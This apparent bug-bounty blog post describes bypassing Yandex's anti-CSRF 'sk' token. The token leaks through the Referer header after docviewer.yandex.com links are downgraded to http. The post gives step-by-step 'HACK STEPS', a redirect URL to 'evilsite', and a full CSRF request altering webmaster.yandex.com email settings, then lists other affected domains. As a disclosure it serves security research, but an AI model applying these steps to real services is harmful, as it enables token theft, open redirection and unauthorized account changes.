 ```yaml
---
layout: post
title: Bypass anti CSRF token of Yandex!
---
```



When you browse a link in docviewer.yandex.com, The site will recreate a token named `sk`, which is used to validate a redirection and anti-csrf token
`sk` is also an anti-csrf token on  {% highlight text %} http://webmaster.yandex.ru`,`https://docviewer.yandex.com/r.xml.{% endhighlight %}
 now  If the attacker know the value of your `sk` token, he can make a redirection and csrf attack.
 **How to know the token of the victim ???**.
 Because `http://docviewer.yandex.com/r.xml?sk=thecsrftokenofvictim&url=evilsite` useD GET request the params are showed in url and it also changeable to https to http .as a result you can use `REFRER HEADER` to get the token.

### HACK STEPS 
 * Upload a document with link or a hyperlink. that hyperlink is the attacker's site..
 * Select the file, Share the link using the share button then get the link
 * Browse that link, Then click the view button you will redirect to docviewer.yandex.com
 * Change the https to http to allow us to see the referer in our site.
 {% highlight text %} 
https://docviewer.yandex.com/?url=ya-disk-public://nhP6POxtEi4v9wDffRyOFHbGQgIOhlsEbLhl3zH9c7k%3D&name=testxxx.odt to http://docviewer.yandex.com/?url=ya-disk-public://nhP6POxtEi4v9wDffRyOFHbGQgIOhlsEbLhl3zH9c7k%3D&name=testxxx.odt
{% endhighlight %}
* Send the url to victim and induce him to click the link for attacker'site to able to leak the anti-CSRF token.

 now you have his `sk` token! that is the bypass!

 **for redirection**
 {% highlight text %} 
 https://docviewer.yandex.com/r.xml?sk=thecsrftokenofvictim&url=evilsite
 {% endhighlight %}

**for csrf** → 
{% highlight text %}
http://webmaster.yandex.com/settings/messages/types.xml?email_1=EMAIL&email_2=EMAIL&message_3=MESSAGE&email_3=EMAIL&message_4=MESSAGE&percent=50&message_5=MESSAGE&message_6=MESSAGE&message_7=MESSAGE&message_8=MESSAGE&email_8=EMAIL&message_9=MESSAGE&message_10=MESSAGE&message_12=MESSAGE&message_17=MESSAGE&message_18=MESSAGE&message_19=MESSAGE&email_19=EMAIL&message_21=MESSAGE&email_21=EMAIL&message_22=MESSAGE&email_22=EMAIL&message_32=MESSAGE&do=save&sk=TOKENOFVICTIM
{% endhighlight %}

**This is wide CSRF attack which affect other Yandex domain.**

### list of affected Yandex domain

* http://appmetrica.yandex.com/
* https://calendar.yandex.ru
* https://disk.yandex.com/
* docviewer.yandex.com
* m.contact.yandex.com.tr & etc
* 

`NOTE: i used javascript code to get the leaked csrf token on refrerer header  and append it to my CSRF PoC.`
